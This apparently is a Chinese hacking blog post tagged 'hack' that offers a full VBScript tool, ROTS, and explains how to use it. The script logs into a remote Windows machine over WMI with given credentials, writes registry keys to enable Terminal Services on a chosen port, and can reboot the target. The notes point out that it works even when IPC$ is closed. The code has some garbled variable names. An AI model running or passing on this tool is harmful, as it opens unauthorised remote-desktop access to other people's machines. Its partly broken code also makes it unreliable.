 ```yaml
---
layout: post
category: curleyg-code-hack
title: 3389脚本开启代码(vbs版)
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: 3389脚本开启代码(vbs版)
lock: need
---
```


# 3389脚本开启代码(vbs版)

将以下代码复制到记事本里并保存为rots.vbs

```bash
on error resume next
set utstreem=wscript.stdout
set instreem=wscript.stdin
if (lcase(right(wscript.fullname,11))="wscript.exe") then
   set bjShell=wscript.createObject("wscript.shell")
   objShell.Run("cmd.exe /k cscript. //nologo "&chr(34)&wscript.scriptfullname&chr(34))
   wscript.quit
end if
if wscript.arguments.count<3 then
   usage()
   wscript.echo "Not enough parameters."
   wscript.quit
end if
ipaddress=wscript.arguments(0)
username=wscript.arguments(1)
password=wscript.arguments(2)
if wscript.arguments.count>3 then
   port=wscript.arguments(3)
else
   port=3389
end if
if not isnumeric(port) or port<1 or port>65000 then
   wscript.echo "The number of port is error."
   wscript.quit
end if
if wscript.arguments.count>4 then
   reboot=wscript.arguments(4)
else
   reboot=""
end if
usage()
outstreem.write "Conneting "&ipaddress&" ...."
set bjlocator=createobject("wbemscripting.swbemlocator")
set bjswbemservices=objlocator.connectserver(ipaddress,"root/cimv2",username,password)
objswbemservices.security_.privileges.add 23,true
objswbemservices.security_.privileges.add 18,true
showerror(err.number)
outstreem.write "Checking OS type...."
set colinstoscaption=objswbemservices.execquery("select caption from win32_operatingsystem")
for each objinstoscaption in colinstoscaption
   if instr(objinstoscaption.caption,"Server")>0 then
      wscript.echo "OK!"
   else
      wscript.echo "OS type is "&objinstoscaption.caption
      outstreem.write "Do you want to cancel setup?[y/n]"
      strcancel=instreem.read
      if lcase(strcancel)<>"n" then wscript.quit
   end if
next
outstreem.write "Writing into registry ...."
set bjinstreg=objlocator.connectserver(ipaddress,"root/default",username,password).get("stdregprov")
HKLM=&h80000002
with objinstreg
.createkey ,"SOFTWARE\Microsoft\Windows\CurrentVersion\netcache"
.setdwordvalue HKLM,"SOFTWARE\Microsoft\Windows\CurrentVersion\netcache","Enabled",0
.createkey HKLM,"SOFTWARE\Policies\Microsoft\Windows\Installer"
.setdwordvalue HKLM,"SOFTWARE\Policies\Microsoft\Windows\Installer","EnableAdminTSRemote",1
.setdwordvalue HKLM,"SYSTEM\CurrentControlSet\Control\Terminal Server","TSEnabled",1
.setdwordvalue HKLM,"SYSTEM\CurrentControlSet\Services\TermDD","Start",2
.setdwordvalue HKLM,"SYSTEM\CurrentControlSet\Services\TermService","Start",2
.setstringvalue HKLM,".DEFAULT\Keyboard Layout\Toggle","Hotkey","1"
.setdwordvalue HKLM,"SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp","PortNumber",port
end with
showerror(err.number)
rebt=lcase(reboot)
if rebt="/r" or rebt="-r" or rebt="\r" then
   outstreem.write "Now, reboot target...."
   strwqlquery="select * from win32_operatingsystem where primary='true'"
   set colinstances=objswbemservices.execquery(strwqlquery)
   for each objinstance in colinstances
      objinstance.win32shutdown(6)
   next
   showerror(err.number)
else
   wscript.echo "You need to reboot target."&vbcrlf&"Then,"
end if
wscript.echo "You can logon terminal services on "&port&" later. Good luck!"
function showerror(errornumber)
if errornumber Then
   wscript.echo "Error 0x"&cstr(hex(err.number))&" ."
   if err.description <> "" then
      wscript.echo "Error description: "&err.description&"."
   end if
   wscript.quit
else
   wscript.echo "OK!"
end if
end function
function usage()
wscript.echo string(79,"*")
wscript.echo "ROTS v1.01"
wscript.echo "Remote Open Terminal services Script, by zzzEVAzzz"
wscript.echo "Welcome to visite www.isgrey.com"
wscript.echo "Usage:"
wscript.echo "cscript. "&wscript.scriptfullname&" targetIP username password [port] [/r]"
wscript.echo "port: default number is 3389."
wscript.echo "/r: auto reboot target."
wscript.echo string(79,"*")&vbcrlf
end function
```

\#######################################################
 描述：远程启动终端服务的windows脚本。
 特点：不依赖于目标的ipc$开放与否。
 原理：直接访问目标的windows管理规范服务（WMI）。该服务为系统重要服务，默认启动。
 支持平台：win2kpro win2kserver winxp win.net
 使用方法：
 在命令行方式下使用windows自带的脚本宿主程序cscript.exe调用脚本，例如：

```bash
 c:\>cscript ROTS.vbs <目标IP> <用户名> <密码> [服务端口] [自动重起选项]
```

 服务端口： 设置终端服务的服务端口。默认是3389。
 自动重起选项： 使用/r表示安装完成后自动重起目标使设置生效。使用此参数时，端口设置不能忽略。

 脚本会判断目标系统类型，如果不是server及以上版本，就会提示你是否要取消。
 因为pro版不能安装终端服务。
 如果你确信脚本判断错误，就继续安装好了。

 如果要对本地使用，IP地址为127.0.0.1或者一个点（用.表示），用户名和密码都为空
 \##################################

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)

